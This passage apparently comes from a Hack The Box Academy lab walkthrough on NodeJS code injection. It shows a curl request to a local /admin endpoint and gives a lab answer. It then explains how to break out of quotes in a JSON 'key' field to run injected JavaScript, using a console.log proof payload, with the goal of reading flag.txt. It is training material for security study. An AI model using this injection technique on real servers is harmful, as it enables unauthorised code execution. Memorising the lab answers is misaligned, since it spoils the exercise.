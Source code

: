 Therefore, in a tab other than the one with `server.js` running, students need to send a `POST` request with any JSON data to the `/admin` endpoint so that the `validateKey` function is executed, to notice the string `const crypto = require("crypto"); keyHash = crypto.createHash("md5").update("this is just a test!").digest("hex");` printed in the node server logs:

Code: shell

```shell
curl http://127.0.0.1:21440/admin -X POST -d '{"key":"this is just a test!"}'
```

```
┌─[us-academy-2]─[10.10.14.94]─[htb-ac413848@htb-sngtigpkku]─[~]
└──╼ [★]$ curl http://127.0.0.1:21440/admin -X POST -d '{"key":"this is just a test!"}'

<!DOCTYPE html>

<head>
```

```
┌─[us-academy-2]─[10.10.14.94]─[htb-ac413848@htb-sngtigpkku]─[~]
└──╼ [★]$ node server.js 

Server is running on http://0.0.0.0:21440
const crypto = require("crypto"); keyHash = crypto.createHash("md5").update("this is just a test!").digest("hex");
```

Answer: `const crypto = require("crypto"); keyHash = crypto.createHash("md5").update("this is just a test!").digest("hex");`

# Code Injection

## Question 1

### "Try to inject a NodeJS code on the remote server to read the 'flag.txt' file in the same directory, and write its content into the 'denied.html' file, which you can access. What is the content of the flag?"

Students need to have `server.js` running locally to test payloads for this question. From the previous question, students had the line `const crypto = require("crypto"); keyHash = crypto.createHash("md5").update("this is just a test!").digest("hex");` printed out, this, the the string within the `update` function can be controlled using the `key` variable in the JSON data that is sent, therefore, any JavaScript code injected into the `update` keyword will be executed by `NodeJS`. To inject code, students first need to escape the quotes by injecting `"`, then end with `);` and then write any JavaScript code, such as `console.log("injected")`. However, students need to comment out the rest of the code so it does not produce any subsequent issues by adding `//` at the end of the payload, `"); console.log("injected");//`. However, before sending the payload, students need to escape any quotes to avoid causing issues with JSON, using `jq`:

Code: shell
